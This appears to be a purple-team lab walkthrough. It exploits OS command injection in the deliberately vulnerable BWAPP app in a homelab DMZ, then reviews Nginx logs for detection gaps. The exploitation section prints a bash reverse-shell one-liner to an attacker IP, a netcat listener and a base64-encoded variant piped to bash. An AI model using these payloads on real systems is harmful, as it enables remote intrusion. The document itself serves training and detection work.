# Scenario 1 - Web application exploitation (WAN → DMZ)

> **Lab4PurpleSec** - Hands-on attack & detection scenarios for Purple Team training  
> Version 1.0 · Author: 0xMR007 · Environment: Lab4PurpleSec Purple Team homelab

> Lab architecture, IP plan and firewall rules: see [00-lab-overview.md](00-lab-overview.md).

---

> Note: Some attacks in this scenario do not yet generate detection in the current defense stack (Wazuh / Suricata).
>
> Any contribution improving visibility or detection rules is welcome!

## Overview

This scenario demonstrates how an **external attacker** (from the WAN segment) exploits a vulnerable web application hosted in the DMZ to obtain **remote code execution (RCE)** and establish a **reverse shell** inside a Docker container.

**Attack path**:

<div align="center">
    
</div>

## Objectives

- Identify and exploit a vulnerable web application
- Obtain RCE on the target application
- Establish a reverse shell in a Docker container
- Understand detection points at each step

## Prerequisites

- ✅ `WAN-ATTACK-LIN` (Kali Linux or other distribution) accessible
- ✅ `DMZ-WEB01-LIN` with active Docker containers (at least one)
- ✅ `LAN-TEST-LIN` to access defensive tools (pfSense, Wazuh, Suricata)
- ✅ pfSense NAT configured and functional: WAN:80 → `DMZ-WEB01-LIN`:80
- ✅ Nginx reverse proxy functional
- ✅ Vulnerable web applications accessible
- ✅ Wazuh and Suricata configured

## I. Environment preparation

This section details the steps necessary to prepare the environment before launching the attack. It covers **starting the attack machine**, **verifying network connections**, and **configuring BWAPP** (vulnerable web application). The objective is to ensure all components (attacker, target) are operational and ready for the scenario.

### Starting the attack machine (`WAN-ATTACK-LIN`)

Start the attack machine on the WAN side:


_Figure 1.0 - Desktop (GNOME) of the `WAN-ATTACK-LIN` machine, running *Kali Linux 2025*_

### Network connection tests

Before starting our attack, we can begin by verifying that we can correctly communicate with the target machine.

Since we are on the WAN from a network perspective, we must go through the pfSense machine which will redirect us (via NAT) to the web server (`DMZ-WEB01-LIN`). Below is an explanatory diagram to the famous vulnerable web application, OWASP Juice Shop:



_Figure 1.1 - Diagram, *Role of NAT* & *Nginx reverse proxy*_

Each vulnerable web application is identified by the Nginx reverse proxy via a virtual hostname (e.g., juice.lab).

We must therefore specify the virtual hostnames of our web applications on our attack machine to access them.

To do this, we can use the `/etc/hosts` file which acts as a local DNS.

Below is an example of a `hosts` file.

Command used:

```bash
sudo cat /etc/hosts
```

Result obtained:


_Figure 1.2 - `hosts` file, `WAN-ATTACK-LIN`_

Now let’s perform a `curl` to the target web application to verify we have HTTP access to it:

```bash
curl -I http://bwapp.lab/install.php # Installation endpoint
```

Result obtained:


_Figure 1.3 - HTTP response headers result via `curl`_

We therefore have access to the desired web application (here BWAPP).

### BWAPP Installation

Good, let’s now go to the BWAPP installation page:



_Figure 1.4 - BWAPP installation page_

We must now proceed with the BWAPP installation by clicking on the “_here_” highlighted in red above.

This step is necessary otherwise the web application will not be available and you will get the following error page:



_Figure 1.5 - BWAPP error page_

After installing BWAPP, you should get a confirmation message:



_Figure 1.6 - BWAPP installation confirmation page_

### Connecting to BWAPP

Now that we have installed the web application, we need to connect to it to access BWAPP’s web security scenarios.

BWAPP login page:



_Figure 1.7 - BWAPP login page_

As indicated in the red box, we can use the login credentials `bee:bug` to access BWAPP.

We then have access to the web application:



_Figure 1.8 - BWAPP home page_

We can now perform all kinds of web security scenarios!

Let’s now move on to web application recon.

## II. Web recon

This phase consists of **exploring the target web application** to identify exploitable vulnerabilities. In this scenario, we will use BWAPP, a guided application, to demonstrate how an attacker identifies an _OS Command Injection_ vulnerability. This step is crucial to understand how an attacker can **map a target** and prepare an exploitation.

> Note: Given that this vulnerable web application is guided, this step will be relatively short compared to a “black box” type web security test.

After connecting to BWAPP, we notice several tabs associated with a web vulnerability. For this scenario, we will use the _OS Command Injection_ vulnerability as shown below:



_Figure 1.9 - Web vulnerability selection on BWAPP_

Then click on the _Hack_ button to access the associated web page:



_Figure 2.0 - Page vulnerable to system command injection, BWAPP_

We are then redirected to `http://bwapp.lab/commandi.php`.

We obtain a page that appears to perform a **DNS lookup** on a given domain name.

Since the chosen scenario is simple and educational, we can use a simplistic payload like: `;id` following the command already in place.


_Figure 2.1 - Injection of the system command `id`_

The objective here is to verify if system command injection is possible through this field.

**Command used**:

```bash
www.nsa.gov;id
```

**Expected result**: Return of the system command `id` potentially under the `www-data` service user.

We obtain the following result:



_Figure 2.2 - System command injection result_

Perfect! The result obtained confirms the vulnerability of the field.

Let’s now try to exploit it more concretely to obtain a _reverse shell_ on the target machine!

## III. Exploitation

This section describes how to exploit the identified vulnerability to obtain **remote code execution (RCE)** and establish a **reverse shell** in the Docker container. We will detail the **payloads used**, **encoding techniques** (such as base64), and **steps to bypass restrictions**. The objective is to simulate a realistic attack while documenting the generated events.

### Establishing the reverse shell

Before establishing the reverse shell, we need to retrieve the IP address of our attack machine:

Command used:

```bash
ip a
```

Result obtained (in my case on my home network `192.168.1.0/24`):



_Figure 2.3 - Network settings of the attack machine_

Great, our IP address here is therefore `192.168.1.116`.

Now to establish a reverse shell, there are different payloads (bash, Python, Perl, etc.) depending on our needs and what is available on the target machine.

Here we will use the famous bash one-liner: `bash -i >& /dev/tcp/192.168.1.116/4444 0>&1`

Before executing this payload, we must set up our listener on port `4444`:

**Command on `WAN-ATTACK-LIN`**:

```bash
# Setting up listener on port 4444 with Netcat
nc -lnvp 4444
```

**Expected result**: Reverse shell connection established from the container to the attacker upon payload execution.



_Figure 2.4 - Netcat listener (port 4444)_

Command in the vulnerable field:

```bash
# Opening an interactive bash shell to 192.168.1.116:4444
;bash -i >& /dev/tcp/192.168.1.116/4444 0>&1
```

We can therefore try our payload on BWAPP:



_Figure 2.5 - Malicious payload execution on BWAPP_

However, you will notice that we get nothing on our listener side:


_Figure 2.6 - Netcat listener (port 4444)_

Indeed, the payload contains many special characters (`&, /, >`) which causes the reverse shell to fail.

### Base64 Payload Encoding

Special characters can be misinterpreted on the server side, causing unexpected errors. To correctly transmit our entire payload, we can use simple _base64_ encoding using the `base64` command.

We must first encode our previous payload:

**Base64 encoding command**:

```bash
echo 'bash -i >& /dev/tcp/192.168.1.116/4444 0>&1' | base64
```

Result obtained:



_Figure 2.7 - Base64 payload encoding_

Good, we have correctly encoded our payload in _base64_.

However, we must modify the payload that we will place in the BWAPP field:

**Final payload:**

```bash
;echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTE2LzQ0NDQgMD4mMQo= | base64 -d | bash
```

**Explanation:** The command below allows us to send our _base64_ encoded payload, then decode it (`base64 -d`) and finally execute it with `bash`.

Since our reverse shell depends on the `base64` command (which is generally available on a Linux machine), we must ensure it is present on the target machine.

To do this, we can use the `which` command which displays the path of a given binary:

**Payload to execute on BWAPP:**

```bash
;which base64
```



_Figure 2.8 - Verification of base64 command presence_

Result obtained:



_Figure 2.9 - Verification result (base64 command)_

Perfect, the binary is present. Everything looks good for obtaining our reverse shell!

Let’s now place our previous payload in the vulnerable field and execute it.

We thus obtain our reverse shell on our attack machine:



_Figure 3.0 - Reverse shell obtained_

We have now obtained initial access to the target machine :)

Let’s now take a look at our _blue team_ tools (Wazuh, Suricata, Docker logs)_._

## IV. Logs & detection

This section focuses on analyzing **logs** and **alerts** generated by detection tools (Wazuh, Suricata, Nginx, Docker) during the attack scenario execution. The objective is to identify traces left by the attacker, evaluate the effectiveness of current detection rules, and propose **improvements** to strengthen visibility and incident response.

### Nginx logs (Docker Container)

<div align="center">
    
</div>

<br>

This subsection examines the **Nginx logs** generated by the Docker container hosting the **Nginx** reverse proxy. These logs are essential to identify **exploitation evidence** and understand how the attacker interacted with the application.

Docker logs obtained on the Nginx side:



_Figure 3.1 - Docker Nginx logs (part 1)_



_Figure 3.2 - Docker Nginx logs (part 2)_

Web activity has been properly recorded in the Nginx logs.

Nginx logs capture the following key elements:

- **Source IP**, **timestamp**, **HTTP method/path**, **return codes**, **user-agent** and **referrer**, useful for traceability and detection of suspicious behaviors (scans, fuzzing, etc.).
- **Error logs** (e.g., timeouts, upstream errors) indicating exploitation attempts.

Although we find web activity logs, these lack important information such as:

- **Virtual Host and Server_name** (Requested HTTP Host and the affected Nginx vhost): identifies which web application was targeted.
- **POST/PUT request methods** (request body): rarely logged by default (attention to volume/confidentiality in production), but useful in a lab to detect injections or actions on the application.
- **Processing time/latency**: `$request_time` and `$upstream_response_time` indicate heavy actions or possible malicious or DoS blocks.
- **MAC address or container ID**: to correlate activity to an individual Docker host for forensics.

This first version of the **_Lab4PurpleSec_** lab already allows capturing **detailed Nginx logs**, but as seen previously, some **limitations** remain for optimal attack detection.

**Some improvement suggestions**:

- Enable request body logging (for malicious payloads).
- Add custom fields (e.g., `container_id`).
- Strengthen integration with Wazuh/Suricata.

These improvements will allow **strengthening detection** and **simulating more realistic attacks** in future versions of the lab.

> 💡 Want to contribute?
> This project is open source and open to all contributions! Whether it’s for:
>
> - Proposing new features.
> - Correcting or enriching documentation.
> - Strengthening detection (Suricata rules, Wazuh integrations).
> - Improving scenarios (adding attack/defense techniques).
>
